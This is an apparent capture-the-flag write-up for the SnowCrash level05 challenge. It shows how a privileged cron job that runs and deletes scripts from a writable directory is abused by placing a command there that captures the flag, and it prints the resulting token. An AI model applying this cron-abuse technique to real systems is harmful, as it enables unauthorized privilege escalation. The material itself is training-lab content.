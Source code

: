 # level05

When we connect on the machine, we have a message displayed: 
```bash
level05@192.168.56.116's password: 
You have new mail.
level05@SnowCrash:~$ cd /var/mail/
level05@SnowCrash:/var/mail$ ls
level05
level05@SnowCrash:/var/mail$ cat level05 
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

The `level05` file seem to be an hint about a crontab.

The home is empty but in `/usr/sbin/openarenaserver` have a `sh script`.
It execute all files presents in `/opt/openarenaserver/` and delete it.  

```bash
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

We must create a file with our command like `/bin/getflag`. Because of the file is deleted after his execution,
we must redirect the output in a `safe file` like `/tmp/flag`.

```bash
level05@SnowCrash:/var/mail$ echo "/bin/getflag > /tmp/flag" > /opt/openarenaserver/file
level05@SnowCrash:/var/mail$ cat /tmp/flag
Check flag.Here is your token : viuaaale9huek52boumoomioc
level05@SnowCrash:/var/mail$ su level06
Password: 
level06@SnowCrash:~$
```

